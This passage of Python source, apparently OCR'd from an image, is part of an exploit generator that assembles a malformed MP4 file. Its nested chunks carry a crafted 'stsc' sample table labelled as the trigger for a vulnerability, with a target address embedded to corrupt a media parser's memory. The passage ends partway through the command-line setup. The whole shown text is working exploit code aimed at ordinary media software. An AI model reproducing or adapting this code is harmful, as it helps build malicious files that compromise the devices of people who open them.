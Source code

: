     mdia1 = ''
    mdia1 += make_chunk('mdhd', mdhd1)
    mdia1 += make_chunk('hdlr', 'F' * 0x3a)

    dinf1 = ''
    dinf1 += make_chunk('dref', 'H' * 0x14)

    minf1 = ''
    minf1 += make_chunk('smhd', 'G' * 0x08)
    minf1 += make_chunk('dinf', dinf1)

    # Build the nasty sample table to trigger the vulnerability here.
    stbl1 = make_stsc(3, (0x1200 / 0xc) - 1, sp_addr, True) # TRIGGER

    # Add the stbl to the minf chunk
    minf1 += make_chunk('stbl', stbl1)

    # Add the minf to the mdia chunk
    mdia1 += make_chunk('minf', minf1)

    # Add the mdia to the track
    trak1 += make_chunk('mdia', mdia1)

    # Add the nasty track to the moov data
    moov_data += make_chunk('trak', trak1)

    # Finalize the moov chunk
    moov = make_chunk('moov', moov_data)
    chunks.append(moov)

    # Combine outer chunks together and voila.
    data = ''.join(chunks)

    return data

if __name__ == '__main__':
    import sys
    import mp4
    import argparse

    def write_file(path, content):
        with open(path, 'wb') as f:
            f.write(content)

    def addr(sval):
        if sval.startswith('0x'):
            return int(sval, 16)
        return int(sval)
